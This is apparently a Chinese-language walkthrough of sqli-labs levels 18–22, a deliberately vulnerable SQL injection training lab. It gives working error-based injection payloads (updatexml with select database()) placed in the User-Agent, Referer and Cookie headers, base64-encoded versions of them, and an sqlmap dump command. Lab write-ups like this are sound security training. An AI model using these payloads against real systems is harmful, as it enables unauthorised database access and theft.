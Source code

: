 sqlmap也可以跑出来数据库和表，参数的payload：`--data="uname=admin&passwd=*" -D security -T tables --dump`。

## less-18
根据提示应该是UA注入，查看源代码，发现输入内容都有审查函数，不存在注入，先试一下UA注入。
根据前几关知道有一组数据为admin-admin，所以在username和password处都输入admin，成功登陆，看到提示信息，然后bp抓包后把User-Agent后的内容改为 1' 运行，报错，说明存在注入，而且源代码里发现很重要的一条语句 **INSERT INTO table_name ('uagent','ip_address','username') VALUES ('\$uagent','\$IP','$uname')**，需要构造注入语句，还要满足闭合条件,
爆库名：`' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or 1='1` 
![修改User-Agent](https://s2.ax1x.com/2019/03/07/kxQFB9.png)
成功得到库名，其他步骤都类似了，不再赘述。

## less-19
与less-18类似，根据提示是Referer注入，成功登陆后bp抓包，修改Referer内容。
爆库名：`' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or 1='1` 
![修改Referer](https://s2.ax1x.com/2019/03/07/kxQg3T.png)
成功得到库名，其他步骤都类似了，不再赘述。

## less-20
与less-19类似，根据提示是Cookie注入，成功登陆后bp抓包，修改Cookie内容。
爆库名：` uname=' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or 1='1`
![修改Cookie](https://s2.ax1x.com/2019/03/07/kxNiuV.png)
成功得到库名，其他步骤都类似了，不再赘述。

## less-21
按less-20的方法成功登陆后，发现页面和less-20有一些不同，
![base64编码](https://s2.ax1x.com/2019/03/07/kxN4bT.png)
uname后的数据加密了，看到加密末尾的 = ，猜测应该是base64编码，到网上将admin进行base64加密，加密结果果然一样。
需要把注入字段进行base64加密，其他方法和less-20一样。
爆库注入字段：` uname=' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or 1='1`
注入字段base64编码：`uname=JyBvciB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGRhdGFiYXNlKCkpLDB4N2UpLDEpIG9yIDE9JzE=`
成功登陆后修改Cookie内容，
![修改Cookie，并进行base64编码](https://s2.ax1x.com/2019/03/07/kxNq2R.png)
成功得到库名，其他步骤都类似了，不再赘述。

## less-22
和less-21类似，根据题目提示闭合方式是 " ，其他方法和less-21一样。
爆库注入字段：` uname=" or updatexml(1,concat(0x7e,(select database()),0x7e),1) or 1="1`
注入字段base64编码：`uname=IiBvciB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSwoc2VsZWN0IGRhdGFiYXNlKCkpLDB4N2UpLDEpIG9yIDE9IjE=`
成功登陆后修改Cookie内容，
![修改Cookie并进行base64编码](https://s2.ax1x.com/2019/03/07/kxUHw8.png)
成功得到库名，其他步骤都类似了，不再赘述。

***sqli-labs(1~22)关卡全部完成了，如有错误，欢迎在评论中指出!***
